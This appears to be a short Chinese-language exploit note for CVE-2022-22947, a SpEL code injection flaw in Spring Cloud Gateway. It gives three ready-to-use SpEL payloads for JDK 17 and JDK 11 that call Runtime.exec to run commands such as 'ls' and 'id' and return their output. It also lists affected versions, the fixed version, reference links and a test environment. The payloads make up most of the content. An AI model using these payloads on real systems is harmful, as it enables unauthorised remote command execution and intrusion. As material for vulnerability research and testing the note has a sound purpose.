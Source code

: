 ### CVE-2022-22947
jdk17
```
#{new java.util.Scanner(T(java.lang.Process).getMethod('getInputStream').invoke(T(java.lang.Runtime).getRuntime().exec(new String[]{'ls'}))).useDelimiter('\A').next().replace('\n',' ')}
```
jdk11
```
#{new java.util.Scanner(''.getClass().forName('java.lang.Runtime').getRuntime().exec('id').getInputStream()).useDelimiter('\\A').next().replace('\n',' ')}
```
另外的payload：
```
#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}
```
影响版本：
> org.springframework.cloud:spring-cloud-gateway-server
> [,3.0.7) [3.1.0,3.1.1) 

- https://tanzu.vmware.com/security/cve-2022-22947
- https://0xn3va.gitbook.io/cheat-sheets/framework/spring/spring-boot-actuators
- https://blog.viettelcybersecurity.com/cve-2022-22947-spring-cloud-gateway-code-injection-vulnerability/
- https://wya.pl/2021/12/20/bring-your-own-ssrf-the-gateway-actuator/
- https://wya.pl/2022/02/26/cve-2022-22947-spel-casting-and-evil-beans/
- https://github.com/lucksec/Spring-Cloud-Gateway-CVE-2022-22947
- https://security.snyk.io/vuln/SNYK-JAVA-ORGSPRINGFRAMEWORKCLOUD-2415033
- https://github.com/lucksec/Spring-Cloud-Gateway-CVE-2022-22947/blob/main/Spring%20Cloud%20Gateway%20Actuator%20API%20SpEL%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B3%A8%E5%85%A5%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%EF%BC%88CVE-2022-22947%EF%BC%89.md


#### 测试环境
- https://github.com/wdahlenburg/spring-gateway-demo


修复版本：3.1.1
![image](https://user-images.githubusercontent.com/30398606/175478287-fb2babf6-b69d-4147-bbef-54f7d913e606.png)


受影响版本：
```
org.springframework.cloud:spring-cloud-gateway-server@[3.1.0, 3.1.1)
org.springframework.cloud:spring-cloud-gateway-server@[2.2.6.RELEASE, 3.0.7)
```
![image](https://user-images.githubusercontent.com/30398606/175480199-c483b215-0511-4f7e-94ef-faad4f6353e9.png)


